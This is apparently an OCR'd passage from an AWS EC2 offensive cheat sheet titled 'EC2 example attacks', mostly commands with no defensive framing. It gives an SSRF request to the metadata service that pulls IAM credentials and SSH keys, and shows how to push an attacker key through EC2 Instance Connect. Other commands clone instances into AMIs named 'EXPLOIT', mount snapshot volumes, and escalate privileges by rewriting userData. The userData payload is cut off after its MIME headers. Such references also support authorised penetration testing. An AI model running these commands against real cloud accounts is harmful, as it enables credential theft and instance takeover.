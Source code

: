 ```
sudo mount /dev/xvdb1 /mnt
cat /mnt/home/ubuntu/setupNginx.sh

# EC2 security group
aws ec2 describe-security-groups
aws ec2 describe-security-groups --filters Name=ip-permission.cidr,Values='0.0.0.0/0' --query "SecurityGroups[*].[GroupName]" --output text
```

### **EC2 example attacks**

````
# SSRF to http://169.254.169.254 (Metadata server)
curl http://<ec2-ip-address>/\?url\=http://169.254.169.254/latest/meta-data/iam/security-credentials/
http://169.254.169.254/latest/meta-data
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/public-hostname
http://169.254.169.254/latest/meta-data/public-keys/
http://169.254.169.254/latest/meta-data/network/interfaces/
http://169.254.169.254/latest/meta-data/local-ipv4
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key/
http://169.254.169.254/latest/user-data

# Find IAM Security Credentials
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/iam/
http://169.254.169.254/latest/meta-data/iam/security-credentials/

# Using EC2 instance metadata tool
ec2-metadata -h
# With EC2 Instance Meta Data Service version 2 (IMDSv2):
Append X-aws-ec2-metadata-token Header generated with a PUT request to http://169.254.169.254/latest/api/token

# Check directly for metadata instance
curl -s http://<ec2-ip-address>/latest/meta-data/ -H 'Host:169.254.169.254'

# EC2 instance connect
aws ec2 describe-instances | jq ".[][].Instances | .[] | {InstanceId, KeyName, State}"
aws ec2-instance-connect send-ssh-public-key --region us-east-1 --instance-id INSTANCE_WE_GOT_PREVIOUSLY --availability-zone zone --instance-os-user ubuntu --ssh-public-key file://shortkey.pub

# EC2 AMI - Read instance, create AMI for instance and run
aws ec2 describe-images --region specific-region
aws ec2 create-image --instance-id ID --name "EXPLOIT" --description "Export AMI" --region specific-region
aws ec2 import-key-pair --key-name "EXPLOIT" --public-key-material fileb:///publickeyfile
aws ec2 describe-images --filters "Name=name,Values=EXPLOIT"
aws ec2 run-instances --image-id {} --security-group-ids "" --subnet-id {} --count 1 --instance-type t2.micro --key-name EXPLOIT

# Create volume from snapshot & attach to instance id && mount in local
aws ec2 create-volume –snapshot-id snapshot_id --availability-zone zone
aws ec2 attach-volume --volume-id above-volume-id --instance-id instance-id --device /dev/sdf

# Privesc with modify-instance-attribute
aws ec2 modify-instance-attribute --instance-id=xxx --attribute userData --value file://file.b64.txt
file.b64.txt contains (and after base64 file.txt > file.b64.txt):
```
Content-Type: multipart/mixed; boundary="//"
MIME-Version: 1.0

````